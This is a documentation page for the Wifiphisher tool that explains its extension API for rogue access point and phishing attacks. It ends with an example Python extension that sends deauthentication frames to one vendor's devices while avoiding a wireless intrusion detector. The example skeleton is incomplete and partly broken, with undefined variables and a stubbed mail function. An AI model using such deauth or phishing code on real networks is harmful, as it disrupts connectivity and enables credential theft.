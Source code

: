 Extensions
==========

Wifiphisher supports a scripting engine that allows users to write simple or
complicated modules in Python that are executed in parallel with efficiency and
expand the functionality of the tool. The extensions leverage a virtual wireless
interface that may or may not correspond directly to a physical card and 
operates in Monitor Mode, hence the extensions can read and write raw 802.11 packets.

Normally, the monitor interface is set in the same channel as the rogue Access
Point. However, if two physical cards are available on the system, Wifiphisher
will perform channel hopping to all the channels that are interesting to the
running extensions. 

Wifiphisher extensions do not run in a sandbox, hence it is recommended to never
run extensions from third parties unless you have carefully audited them
yourself.

The extensions typically fit in at least one of the below categories:

* Wi-Fi attacks. This is the most common case of an extension. Both denial-of-service (i.e. victim de-authentication) and automatic association attacks fit in this category.

* Phishing enhancements. In this category fit all the extensions that enhance a phishing scenario with various techniques. For example, we can dynamically adjust the phishing interface with something familiar to the victim user to create a more realistic page.  We can also perform various checks on the captured credentials to check their validity and present a relevant error message to the victim user. 

* Other. The rest of the extensions fall in this category. The examples here include binding Wifiphisher with another tool upon a specific event, printing custom UI messages or interacting with roguehostapd. 


Developing a Wifiphisher Extension
----------------------------------

In order to create an extension, the developer needs to create a file under the
"wifiphisher/extensions" directory. The first step is to define a class that has the 
name of the filename in camelcase. For example, deauth.py would have a Deauth()
class. Then the following callback methods are required:


*__init__(self, shared_data)*: Basic initialization method of the extension
where The extension manager passes all the data that may be required. The
shared_data is actually a dictionary that holds the following information:

.. code:: python

        shared_data = {
                        'is_freq_hop_allowed' boolean
                        'target_ap_channel': str
                        'target_ap_essid': str
                        'target_ap_bssid': str
                        'target_ap_encryption': str
                        'target_ap_logo_path': str
                        'rogue_ap_mac': str
                        'roguehostapd': Hostapd
                        'APs': list
                        'args': args
                    }


'APs' is a list of dictionaries where each dictionary represents an Access Point
discovered during the reconnaissance phase.

.. code:: python 

        AP = 'channel': str
        'essid': str
        'bssid': str
        'vendor': str

'args' is an argparse object containing all the arguments provided by the user. 

Note that the above values may be ‘None’ accordingly. For example, all the
target_* values will be None if there user did not target an Access Point (by
using --essid option). The ‘target_ap_logo_path’ will be None if the logo of the
specific vendor does not exist in the repository.          

*send_channels(self):* This callback is called once and the extension needs to
return a list of integers for all the channels that is interested to listen. The
Extension Manager will merge all the received lists to create a final list with
the channels that the monitor card needs to hop. 

*get_packet(self, pkt):* Callback to process individually each packet captured
from the interface in monitor mode and also send any frames in the air. The pkt
is actually a Scapy Dot11 packet. This callback needs to return a dictionary
with the channel number as the key and a list with the Dot11 packets as the
value.

The asterisk "*" as a key has a special meaning in this dictionary. It basically
means "send this packet to whichever channel is available". The reason for this,
is that we may want to broadcast frames without caring about the channel number.
For example, beacon frames that will always be processed by the stations that
perform passive scanning where channel number is not important. Instead of
putting a random channel number, we can put the asterisk to make our attack more
efficient.

For example,

{"6": Dot11_pkt1,
"*": Dot11_pkt2}

The above dictionary will instruct the Extension Manager to route Dot11_pkt1 to
channel 6 and Dot11_pkt2 to whatever available channel it can. That means that
if another extension is loaded and is sending frames to channel 7, the
Dot11_pkt2 will be sent to both channels 6 and 7.

*send_output(self):* Callback that returns in a list of strings the entry logs that
we need to display in the main screen. This callback is called almost continuously.

*on_exit(self):* Callback that is called once upon the exit of the software to
allow to the extensions to free any resources or perform other cleanup
operations.

As we mentioned earlier, an extension may perform a server-side processing of
the data received by the victim users during a phishing operation. Or an extension may dynamically adjust the phishing page upon render. For these cases, we use two special decorators "@uimethods.uitmethod" and "@extensions.register_backend_funcs". For more information on these, please read the tutorial on how to create a custom phishing scenario.

Now let's consider an example. Let's suppose that during a penetration testing,
"we noticed that the target infrastructure is using Internet-of-Things devices
from the Octonion S.A. As part of our testing, we want to run Wifiphisher and
get man-in-the-middle position in these devices. We also know that the target
infrastructure has employed a WIDS to detect intense deauth attacks. For this
reason, We want our attack to be limited to the Octonion devices only. We also
want to receive a status email now and then. 

Since what we want to do is a more complicated case, Wifiphisher options aren't
really helpful here. But luckily we can write our own extension to customize our
attack.

Here is what our extension will look like:


.. code:: python

        class deauthOctanion(): # Assuming filename is deauthoctanion.py

            def __init__(self, shared_data):
                self.data = shared_data
                self._packets_to_send = defaultdict(list)

            @staticmethod
            def _extract_bssid(packet):
                """
                Return the bssid of access point based on the packet type
                :param packet: A scapy.layers.RadioTap object
                :type packet: scapy.layers.RadioTap
                :return: bssid or None if it is WDS
                :rtype: str or None
                .. note: 0 0 -> IBBS
                         0 1 -> from AP
                         1 0 -> to AP
                """

                ds_value = packet.FCfield & 3
                to_ds = ds_value & 0x1 != 0
                from_ds = ds_value & 0x2 != 0

                # return the correct bssid based on the type
                return ((not to_ds and not from_ds and packet.addr3)
                        or (not to_ds and from_ds and packet.addr2)
                        or (to_ds and not from_ds and packet.addr1) or None)

            def send_channels(self):
                return [1,2,3,4,5,6,7,8,9,10,11,12]

            def get_packet(self, pkt):

                bssid = self._extract_bssid(pkt)
                # If this is an Octonion SA
                if bssid.startswith("9C:68:5B"):
                    # craft Deauthentication packet
                    deauth_part = dot11.Dot11(
                        type=0, subtype=12, addr1=receiver, addr2=sender, addr3=bssid)
                    deauth_packet = (dot11.RadioTap() / deauth_part / dot11.Dot11Deauth())
                    if deauth_packet not in self._packets_to_send["*"]:
                        self._packets_to_send["*"] += deauth_packet

                    # Send Output
                    self.send_output = True

                return self._packets_to_send


            def send_mail():
                ...

            def send_output(self, pkt):
                if self.send_output:
                    self.send_mail()
                    return ["Found an Octonion device!"]
                
            def on_exit(self):
                pass


The above code should be self-explanatory. This is of course the basic skeleton.
The full code is left as an exercise for the reader :)
